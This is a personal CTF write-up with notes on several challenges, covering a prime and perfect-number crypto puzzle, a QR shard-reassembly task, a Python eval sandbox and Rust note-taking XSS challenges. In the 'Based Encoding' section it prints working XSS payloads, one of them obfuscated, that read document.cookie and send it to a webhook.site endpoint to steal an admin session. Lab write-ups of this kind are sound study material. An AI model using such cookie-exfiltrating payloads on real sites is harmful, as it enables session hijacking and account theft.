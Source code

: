 ## Crypto

### Lucky Numbers (Easy) ✓

This is the relevant code which takes 2 numbers and determines if the flag will be given to us. The numbers are s and t, which are in the ranges of 20,000-150,000,000,000 and 0-42 respectively.

```python
        n=2**t-1
        sent=False
        for i in range(2,int(n**0.5)+1):
             if (n%i) == 0:
                print("The second number didn't bring me any luck...")
                sent = True
                break
        if sent:
            continue
        u=t-1
        number=(2**u)*(2**(t)-1)
        sqrt_num=math.isqrt(s)
        for i in range(1,sqrt_num+1):
            if s%i==0:
                A.append(i)
                if i!=s//i and s//i!=s:
                    A.append(s//i)      
        total=sum(A)
        if total==s==number:
```

total must be equal to s which must be equal to number. Total is the sum of A, which is a list of ints. // is whole number divide, % is remainder, ** is exponentiation, isqrt is int square root.

The for loop goes from 1 to the square root of s (rounded) plus 1. range is exclusive, so it loops square root of s times. each loop, it checks if the remainder of s divided by i is 0. If it is, that means that s is divisible by i. If it is, it appends i to A, and checks if i is not equal to s // i AND if s //i is not equal to s. Which is to say that neither number is the square root of the other (I think). If that condition is met, s // i is appended to A.

The other component which must be equal, besides total and s, is number. number is equal to 2^u times 2^t -1, where u is t-1

The final requirement is that for i in range 2 to sqrt of n + 1, where n is 2^t -1, n % i must never be equal to 0.

I had a hard time making heads or tails of this math even after looking through it. I figured the algorithms probably had a more elegant description which would make the problem easier to solve. Luckily, GPT4 is quite good at math, and it identified the functions as checking for a prime number and a perfect number respectively. It wrote a script to check for pairs which might satisfy the conditions and made a nice table. I tried a pair which were in the allowed range and it worked. Very impressive

## Misc

### Soulsplitter (Easy)

I wrote a python script to turn the shards back into a soul, then I ran it using the -i flag for interactive mode so I could decode as many souls as I wanted (and so I didn't have to make a main function which takes command line input) (I should probably learn how to do that). The program takes the name of a text file which contains the shards, to make it easy to enter them and test the program. After some trouble with dependencies, I got it to work, but it doesn't work correctly. After adding some test statements, it became clear that a correct QR code was not being generated correctly. Checking the soulsplitter code, it's obviously because I wasn't accounting for the shuffling of the atoms or the shuffling of the shards and the missing shard. It seems like this problem will require some kind of brute force attack.

Vnzydem-Dfl-VYFqaeWvcQ is the soul for the current set of shards s1.txt. You can use it to confirm if the program is working
### Safest Eval (Medium)

https://safest-eval.flu.xxx

This problem links to a website in which you can submit a python function to be run on the server. The python code is evaluated for it's capability to determine if a string is a palindrome and the result is returned. The server files are available. Presumably, you need to write a python function which can get the flag and send it to a webhook or something.

## PWN

### Destiny Digits


## Rev

## Web

### Awesome Study Notes

This challenge features a website programmed in Rust which allows the user to take notes in html format as well as have a moderator check notes for TOS violation. Presumably, we must do a XSS attack with javascript in order to steal the admin cookie from the administrator and get the flag

I was wondering what happended to my `<script>` tag when I entered it in a note, since other html tags were sent back unchanged. Turns out the Rust source code has a sanitizer:

```rust
    let safe = ammonia::Builder::new()
        .tags(hashset!["h1", "p", "div"])
        .add_generic_attribute_prefixes(&["hx-"])
        .clean(&body)
        .to_string();
```

![[Pasted image 20231014142138.png]]

To access the flag, go to: https://awesomenotes.online/note/flag and add a header to the request called Cookie with session=ADMIN_SESSION where ADMIN_SESSION is the token for the admin

### Based Encoding

![[Pasted image 20231014192249.png]]


Final payload:

```html
<script>var xhr=new XMLHttpRequest();
xhr.open("POST","https://webhook.site/a6d36dad-50de-4be0-ae29-8e48474bc7f2",true);
xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
xhr.send("cookie="+encodeURIComponent(document.cookie));</script>
```

However, this doesn't work because the base91 encoding is modified and doesn't use periods or single quotes. The above payload has already had its single quotes replaced by double quotes, but more alterations were needed.

```html
<script>var xhr=new XMLHttpRequest();xhr["open"]("POST","https://webhook" +String["fromCharCode"](46) + "site/3aac4f80"+String["fromCharCode"](45) + "6b5b"+String["fromCharCode"](45) + "442e"+String["fromCharCode"](45) + "a93e"+String["fromCharCode"](45) +"a0503256d4c7",true);xhr["setRequestHeader"]("Content"+String["fromCharCode"](45) +"Type","application/x"+String["fromCharCode"](45) +"www"+String["fromCharCode"](45) +"form"+String["fromCharCode"](45) +"urlencoded");xhr["send"]("cookie="+encodeURIComponent(document["cookie"]));</script>
```




